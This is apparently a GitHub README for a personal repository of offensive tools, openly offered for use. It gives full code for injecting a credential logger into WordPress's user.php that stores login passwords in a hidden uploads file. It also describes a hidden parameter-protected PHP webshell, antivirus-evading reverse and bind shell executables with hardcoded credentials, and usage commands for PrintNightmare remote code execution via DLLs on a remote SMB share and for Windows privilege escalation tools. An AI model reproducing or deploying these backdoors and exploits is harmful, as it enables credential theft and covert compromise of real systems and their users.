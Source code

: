 # JustRepository

Testing project

## Getting Started

These are repository for tools and code I modify and compile for fun (?). I want to say "use this for educational purposes only" but I know it won't change your evil thoughts.

### Webshell.php

simple webshell that protected with parameter.
Upload shell. rename it with ".page.backup.php". 
Call it with your own parameter:
```
example.com/uploads/.page.backup.php?dxnboy=4343
```
Modified from:

* **Flozz** - *PHP shell* - [P0wny Shell](https://github.com/flozz/p0wny-shell)

### Inject Wordpress

Inject user.php in wordpress to record credentials that login (kind of keylogger). Required user priviledge that can write to wordpress directory. 
edit file wordpress/wp-include/user.php. Just note for real world usage there will be many login attemp if login page is exposed by default because people using bots to bruteforce, means that .txt file logger will has a lot of false negative and large data

before
```
if ( ! empty( $credentials['remember'] ) ) {
                $credentials['remember'] = true;
} else {
                $credentials['remember'] = false;
}
```

after inject
```
if ( ! empty( $credentials['remember'] ) ) {
                $credentials['remember'] = true;
                date_default_timezone_set('Asia/Jakarta');
                $credz = date('Y-m-d H:i:s') . " || IP: " . get_client_ip() . " || Username: " . $_POST['log'] . " && Password: " . $_POST['pwd'];
                file_put_contents('wp-content/uploads/.page.txt', base64_encode($credz).PHP_EOL, FILE_APPEND);
} else {
                $credentials['remember'] = false;
                date_default_timezone_set('Asia/Jakarta');
                $credz = date('Y-m-d H:i:s') . " || IP: " . get_client_ip() . " || Username: " . $_POST['log'] . " && Password: " . $_POST['pwd'];
                file_put_contents('wp-content/uploads/.page.txt', base64_encode($credz).PHP_EOL, FILE_APPEND);
}
```

Encoded with base64. call it in: and decode it with base64
```
wordpress/wp-content/uploads/.page.txt
```

### Reverse shell Evade Defender AV
In case nc.exe blocked or need single command line reverse shell on limited RCE or single click reverse shell. Using python 2.7 (os,socket,subprocess,threading) converted in exe binary spawn \windows\system32\cmd. Evade by encrypt with base64 and simple print argument. Catch with ncat for rev and meterpreter session for mrev
```
.\rev444
.\mrev4444
```
```
Usage: sel <target ip> <Port #>
.\sel 10.10.14.2 4141
```
### Awesome Backdoor Windows Bind Shell
Windows compiled x64 python exe bindshell Modified from:
* **NullByte** - *Windows Python Bind Shell* - [Python Bind Shell](https://null-byte.wonderhowto.com/how-to/create-bind-shell-python-0163951/)

bind-dxntboy-8282.exe has green status from virus total and can be run on updated Win 10 Enterprise (atleast until today it created). Bind to port 8282, USER:dxntboy, PASS:pass and ready to go. Default pipe from script will bind up to 5 connection. Will compile in stealth mode (no cmd pop up and running in background) if I has to use in real world and will mutate encoding base64 using tool from neetspooky base64 mutate. Run bind-dxntboy-8282.exe file and connect via ncat
```
nc <target> 8282
```

### SharpPrintNightmare.exe

* **cube0x0** - *CVE-2021-1675* - [SharpPrintNightmare](https://github.com/cube0x0/CVE-2021-1675)
```
#LPE
C:\SharpPrintNightmare.exe C:\rev.dll

#RCE using existing context
SharpPrintNightmare.exe '\\192.168.1.215\smb\addCube.dll' '\\192.168.1.20'

#RCE using runas /netonly
SharpPrintNightmare.exe '\\192.168.1.215\smb\addCube.dll' '\\192.168.1.10' hackit.local domain_user Pass123
 ```

### watch.sh & procmon.sh
In case we didn't get fully tty shell, watch.sh similar to watch and procmon.sh similar to pspy. Added time argument so script will stop in spesific time, by default script will stop at 300 seconds. 
```
./watch.sh <directory (default=.)> <time (default=300)>
./watch.sh /tmp/ 60
./watch.sh /opt/script/tmp/
./procmon.sh <time (default=300)>
```
### RemotePotato0.exe

* **antonioCoco** - *potato variant* - [RemotePotato0](https://github.com/antonioCoco/RemotePotato0)
```
#user session must exist
query user
.\RemotePotato0.exe -m 0 -r 10.0.0.20 -x 10.0.0.20 -p 9999 -s 1

#try different module
RemotePotato0.exe -m 1 -l 9997 -r 10.0.0.20
RemotePotato0.exe -m 2 -s 1
RemotePotato0.exe -m 3 -l 9997
 ```
 
 ### SeRestoreAbuse.exe

* **xct** - *Windows Privesc* - [SeRestoreAbuse](https://github.com/xct/SeRestoreAbuse)
```
SeRestoreAbuse.exe "cmd /c ..."
SeRestoreAbuse.exe "cmd /c C:\temp\rshell.exe"
 ```

